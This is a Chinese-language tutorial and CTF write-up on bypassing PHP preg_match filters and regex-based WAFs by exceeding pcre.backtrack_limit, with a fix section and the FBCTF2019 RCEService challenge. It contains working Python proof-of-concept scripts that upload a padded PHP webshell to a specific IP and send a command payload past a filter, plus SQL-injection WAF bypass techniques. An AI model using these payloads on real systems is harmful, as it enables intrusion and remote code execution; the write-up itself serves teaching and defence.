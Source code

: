 

代码简化如下：

```
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

大意是判断一下用户输入的内容有没有PHP代码，如果没有，则写入文件。这种时候，如何绕过`is_php()`函数来写入webshell呢？

这道题看似简单，深究其原理，还是值得写一篇文章的。

## 0x01 正则表达式是什么

正则表达式是一个可以被“有限状态自动机”接受的语言类。

“有限状态自动机”，其拥有有限数量的状态，每个状态可以迁移到零个或多个状态，输入字串决定执行哪个状态的迁移。

而常见的正则引擎，又被细分为DFA（确定性有限状态自动机）与NFA（非确定性有限状态自动机）。他们匹配输入的过程分别是：

- DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入
- NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态

由于NFA的执行过程存在回溯，所以其性能会劣于DFA，但它支持更多功能。大多数程序语言都使用了NFA作为正则引擎，其中也包括PHP使用的PCRE库。

## 0x02 回溯的过程是怎样的

所以，我们题目中的正则`<\?.*[(`;?>].*`，假设匹配的输入是`<?php phpinfo();//aaaaa`，实际执行流程是这样的：

![image-20231022223617975](assets/image-20231022223617975.png)

见上图，可见第4步的时候，因为第一个`.*`可以匹配任何字符，所以最终匹配到了输入串的结尾，也就是`//aaaaa`。但此时显然是不对的，因为正则显示`.*`后面还应该有一个字符`[(`;?>]`。

所以NFA就开始回溯，先吐出一个`a`，输入变成第5步显示的`//aaaa`，但仍然匹配不上正则，继续吐出`a`，变成`//aaa`，仍然匹配不上……

最终直到吐出`;`，输入变成第12步显示的`<?php phpinfo()`，此时，`.*`匹配的是`php phpinfo()`，而后面的`;`则匹配上`[(`;?>]`，这个结果满足正则表达式的要求，于是不再回溯。13步开始向后匹配`;`，14步匹配`.*`，第二个`.*`匹配到了字符串末尾，最后结束匹配。

在调试正则表达式的时候，我们可以查看当前回溯的次数：

![image-20231022223649184](assets/image-20231022223649184.png)

这里回溯了8次。

## 0x03 PHP的`pcre.backtrack_limit`限制利用

PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。我们可以通过`var_dump(ini_get('pcre.backtrack_limit'));`的方式查看当前环境下的上限：

[![image.png](assets/f51c0775-1137-44bf-a366-f68b96e5358a.5d0b63e155b7.png)](https://www.leavesongs.com/media/attachment/2018/11/26/f51c0775-1137-44bf-a366-f68b96e5358a.png)

> 这里有个有趣的事情，就是PHP文档中，中英文版本的数值是不一样的：
>
> [![image.png](assets/e1ef3f44-8ea8-4156-94f4-f860e47e9152.d62407cb720d.png)](https://www.leavesongs.com/media/attachment/2018/11/26/e1ef3f44-8ea8-4156-94f4-f860e47e9152.png)
>
> 我们应该以英文版为参考。

可见，回溯次数上限默认是100万。那么，假设我们的回溯次数超过了100万，会出现什么现象呢？比如：

[![image.png](assets/ad1ed05b-fab4-4316-96e0-06717ae7b444.829619d9800d.png)](https://www.leavesongs.com/media/attachment/2018/11/26/ad1ed05b-fab4-4316-96e0-06717ae7b444.png)

可见，`preg_match`返回的非1和0，而是false。

`preg_match`函数返回false表示此次执行失败了，我们可以调用`var_dump(preg_last_error() === PREG_BACKTRACK_LIMIT_ERROR);`，发现失败的原因的确是回溯次数超出了限制：

[![image.png](assets/e9effb6d-fd43-41aa-9bb8-1aab366649e6.a11361f8009b.png)](https://www.leavesongs.com/media/attachment/2018/11/26/e9effb6d-fd43-41aa-9bb8-1aab366649e6.png)

所以，这道题的答案就呼之欲出了。我们通过发送超长字符串的方式，使正则执行失败，最后绕过目标对PHP语言的限制。

对应的POC如下：

```php
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

## 0x04 PCRE另一种错误的用法

延伸一下，很多基于PHP的WAF，如：

```
if(preg_match('/SELECT.+FROM.+/is', $input)) {
    die('SQL Injection');
}
```

均存在上述问题，通过大量回溯可以进行绕过。

另外，我遇到更常见的一种WAF是：

```
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

这里涉及到了正则表达式的“非贪婪模式”。在NFA中，如果我输入`UNION/*aaaaa*/SELECT`，这个正则表达式执行流程如下：

- `.+?`匹配到`/`
- 因为非贪婪模式，所以`.+?`停止匹配，而由`S`匹配`*`
- `S`匹配`*`失败，回溯，再由`.+?`匹配`*`
- 因为非贪婪模式，所以`.+?`停止匹配，而由`S`匹配`a`
- `S`匹配`a`失败，回溯，再由`.+?`匹配`a`
- ...

回溯次数随着a的数量增加而增加。所以，我们仍然可以通过发送大量a，来使回溯次数超出`pcre.backtrack_limit`限制，进而绕过WAF：

[![image.png](assets/abf469d4-eb83-416e-8cb3-caa5d59ffb6f.b6586a5d1f9b.png)](https://www.leavesongs.com/media/attachment/2018/11/26/abf469d4-eb83-416e-8cb3-caa5d59ffb6f.png)

## 0x05 修复方法

那么，如何修复这个问题呢？

其实如果我们仔细观察PHP文档，是可以看到`preg_match`函数下面的警告的：

[![image.png](assets/cfb5dda3-0643-45b0-9080-81c4a45cda56.d56b2d701229.png)](https://www.leavesongs.com/media/attachment/2018/11/26/cfb5dda3-0643-45b0-9080-81c4a45cda56.png)

如果用`preg_match`对字符串进行匹配，一定要使用`===`全等号来判断返回值，如：

```php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

这样，即使正则执行失败返回false，也不会进入if语句。

## 0x06 题目实例 [FBCTF2019]RCEService

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

这过滤。。。。。。

### 解法一：利用正则回溯次数限制绕过

看到了`preg_match`,就会想到p神曾经提到的PRCE，利用如下的exp：

```php
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print(res.text)
```

### 解法二：多行---利用preg_mach()会尽力匹配第一行的特性

因为preg_match只会去匹配第一行，所以这里可以**用多行进行绕过**

源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

cat命令在/bin中保存

所以构造出payload ，%0A是换行符

![image-20241026213956128](assets/image-20241026213956128.png)